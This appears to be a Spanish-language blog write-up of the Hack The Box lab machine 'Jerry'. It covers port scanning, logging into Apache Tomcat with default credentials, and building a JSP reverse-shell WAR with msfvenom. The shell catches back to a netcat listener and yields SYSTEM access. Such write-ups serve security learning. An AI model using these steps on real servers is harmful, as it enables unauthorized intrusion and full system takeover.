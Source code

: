 ```yaml
---
layout: post
title: HTB Jerry
date: '2023-11-05 16:50:41 -0500'
categories: [HTB, Easy]
tags: [Web, Tomcat, CredByDefault, MSFvenom,FileUpload] 
image:
  path: /jerry/preview.png
  alt: Jerry
---
```


## Resumen
![logo](/jerry/logo.png){: .right w="200" h="200" }

**Jerry** es una máquina bastante amigable para aquellos que están empezando en Hack The Box. En esta máquina, es necesario realizar una enumeración dentro de un sitio web alojado en **Apache Tomcat** para darse cuenta de que se están utilizando **credenciales por defecto**, información que el propio sitio web revela. Después de este descubrimiento, solo hace falta subir un archivo **.war** que será interpretado por el servidor, lo que resulta en la obtención de una shell reversa con **máximos privilegios** dentro de **Windows**.


## Escaneo de Puertos

Para empezar, Se realiza un **ping** para verificar si existe conexión con la máquina.

```bash
ping -c 1 10.10.10.95
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=232 ms

--- 10.10.10.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 232.199/232.199/232.199/0.000 ms
```
{: .nolineno}


Ahora es posible realizar un escaneo de puertos con **Nmap** para conocer qué puertos están activos dentro de la máquina y con eso poder descubrir que servicios se encuentran corriendo en cada uno.

```bash
❯ nmap -p- --min-rate 2000 10.10.10.95 -Pn -oG ports

Nmap scan report for 10.10.10.95
PORT     STATE SERVICE
8080/tcp open  http-proxy
```
{: .nolineno}


Sobre el puerto, es posible realizar un escaneo más detallado para obtener más información sobre el servicio que se encuentra en ejecución.
```bash
❯ nmap -p8080 -sVC 10.10.10.95 -Pn -oN versions

Nmap scan report for 10.10.10.95
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```
{: .nolineno}

## Enumeración

Con la información obtenida, se procede a revisar el sitio web, y al hacerlo, se observa un servicio de **Apache Tomcat**

![web](/jerry/web.png)


Al intentar acceder al panel de administrador, se observa la presencia de un formulario para el ingreso.

![formulario](/jerry/formulario.png)

Si se llena de forma errónea el formulario, se puede observar un mensaje de error que muestra las **credenciales por defecto** del servicio. Por lo tanto, se puede intentar utilizarlas para realizar el inicio de sesión.
![error](/jerry/error.png)


## Explotación


Al probarlas, se confirma que efectivamente se están utilizando esas credenciales, lo que permite ingresar al servicio como **administrador**

![validCreds](/jerry/validCreds.png)


![admin](/jerry/admin.png)


Ahora, al contar con **privilegios de administrador** dentro de la web, es posible subir un archivo **.war** para obtener una **shell reversa**.

![FileUpload](/jerry/fileupload.png)

Pero para esto, es necesario crear el archivo que será interpretado por el servidor. Para ello, se puede hacer uso de **msfvenom** mediante el siguiente **comando**:

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.61 LPORT=4444 -f war -o jerry.war

Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: jerry.war
```
{: .nolineno}


Ahora solo queda cargar el archivo, ponerse a la escucha con `nc` y ejecutarlo dándole clic a su enlace para obtener la **shell reversa**.

![file](/jerry/file.png)

Se pone a la escucha con el siguiente comando:

```bash
nc -lvp 4444
```
{: .nolineno}

Y se da click dentro del enlace se gana una shell reversa.

![clic](/jerry/link.png)


```bash
 nc -lvp 4444
listening on [any] 4444 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.61] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
{: .nolineno}

Dado que el servicio se está ejecutando con máximos privilegios gracias a nc authority, solo sería necesario buscar las flags, ya que se cuenta con acceso completo al sistema.


